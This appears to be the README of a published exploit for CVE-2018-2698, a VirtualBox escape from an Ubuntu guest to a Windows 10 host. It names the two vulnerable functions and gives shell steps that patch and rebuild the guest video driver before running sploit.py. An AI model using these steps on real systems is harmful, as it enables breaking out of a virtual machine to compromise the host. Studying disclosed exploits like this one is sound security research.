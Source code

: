 # CVE-2018-2698 exploit

Default config exploit for Windows 10 host.
There were actually two seperate vulns, fixed under one CVE, both of which
provide the same primitive: One in vboxVDMACmdExecBpbTransfer, one in
vboxVDMACmdExecBlt.
Details at
https://github.com/phoenhex/files/blob/master/slides/unboxing_your_virtualboxes.pdf

In Ubuntu guest, Windows 10 1709 host, Virtualbox 5.2:

```
$ wget http://download.virtualbox.org/virtualbox/5.1.30/VBoxGuestAdditions_5.1.30.iso
$ sudo mount -o loop -t iso9660 VBoxGuestAdditions_5.1.30.iso /mnt
$ sudo /mnt/VBoxLinuxAdditions.run
$ sudo cp 70-vboxpwn.rules /etc/udev/rules.d
$ sudo cp HGSMIBase.c /usr/src/vboxguest-5.1.30/vboxvideo
$ sudo /mnt/VBoxLinuxAdditions.run --keep --target additions --noexec
$ sudo additions/vboxadd setup
$ sudo reboot
```

Then run `sploit.py`
